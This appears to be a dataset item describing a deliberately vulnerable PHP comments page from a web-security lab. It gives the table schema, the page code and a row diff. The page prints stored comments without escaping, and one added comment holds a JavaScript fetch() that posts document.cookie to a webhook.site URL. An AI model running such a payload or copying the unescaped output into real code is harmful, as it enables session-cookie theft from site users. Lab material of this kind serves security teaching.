
The app's page /comments.php, older data.

The same page, newer data.
### tables this page shows
CREATE TABLE comments (id INTEGER PRIMARY KEY AUTOINCREMENT, who NVARCHAR(32), text VARCHAR(32));

### db.php (called while the page is built, shortened)
<?php
class DB
{
	public function __construct()
	{
		$this->db = new PDO('sqlite:db.sqlite');
	}
	public function query($query)
	{
		$result = $this->db->query($query);
		return $result->fetchAll(PDO::FETCH_ASSOC);
    }
}
$db = new DB();
?>

### comments.php (the view, shortened to what this page needs)
<DOCTYPE html>
<head>
</head>
<?php
    require 'db.php';
?>
<h1>User Info</h1>
<?php
 if(isset($_SESSION['user']))
 {
     echo 'Logged in as:  ' . $_SESSION['user'];
 } else {
     echo 'Not logged in.';
 }
?>
<body>
    <h1>View comments</h1>
    <ul>
<?php
$comments = $db->query("SELECT * from comments;");
foreach ($comments as $c) {
    echo '<li><b>' . $c["who"] . "</b>: " . $c["text"] . "</li>";
}
?>
    </ul>
        <h1>Post a comment</h1>
        <p><i>For examples, take a look at the source code for steal.html, located in this directory.</i></p>
  <form id="form" method="POST" action="comments.php">
    <textarea id="text" cols="40" rows="5" name="text"></textarea><br />
    <input id="btn" type="submit" name="submit" value="Post!">
  </form>
    <a href="./index.php">Main page</a> |
    <a href="./setup.php">Reset database</a>
</body>
</html>

Row changes from the older to the newer data that the page shows:
added comments: who "alice", text "fetch(\"https://webhook.site/bfab7516-a0d6-4c35-9243-cf09f177b497\", { \"body\": \"Hello! My cookie is: \" + document.cookie, \"method\": \"post\", }).await;"
added comments: who "alice"
